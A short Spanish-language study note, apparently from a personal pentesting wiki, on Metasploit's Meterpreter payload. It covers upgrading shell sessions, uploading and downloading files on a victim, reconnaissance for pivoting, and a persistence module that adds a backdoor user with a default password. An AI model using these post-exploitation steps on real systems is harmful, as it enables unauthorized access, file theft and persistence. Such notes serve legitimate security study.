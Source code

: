 Es un [[Payload de Metasploit]]

Es un payload con comandos incluidos, tipicamente de [[Postexplotacion]].

Para mejorar una sesion shell a meterpreter, una opcion es:

``` bash
background
session -u [sessID]
```

Las sesiones se pueden listar mediante ``` sessions ```  y ``` sessions -l ``` 

Los comandos visibles mediante help con meterpreter se ejecutan por igual en Windows o Linux, pero podemos pasar a la shell de la victima con el comando ``` shell ``` 

Comandos útiles para subida y bajada de archivos:

``` bash
download [filepath]
upload [filepathLocal] [filepathDest]
```

El comando ``` arp ``` permite ver la cache ARP, lo cual es particularmente útil para reconocimiento. Con ``` ifconfig ``` y ``` ipconfig ``` nos puede ayudar a descubrir nuevas subredes. Podemos ver los sockets mediante ``` netstat ```. 

Todo esto es útil para el [[Pivoting]]

Tambien podemos ejecutar módulos de metasploit dentro de la máquina.

Por ejemplo, un módulo de persistencia:

``` bash
background
use post/linux/manage/adduser
```

Podemos configurar todo esto:

``` bash
   GROUPS                     no        Set what groups the new user will be part of separated with a
                                         space
   HOME                       yes       Set the home directory of the new user. Leave empty if user w
                                        ill have no home directory
   PASSWORD  Metasploit$1     yes       The password for this user
   SESSION                    yes       The session to run this module on
   SHELL     /bin/sh          yes       Set the shell that the new user will use
   USERNAME  metasploit       yes       The username to create
```


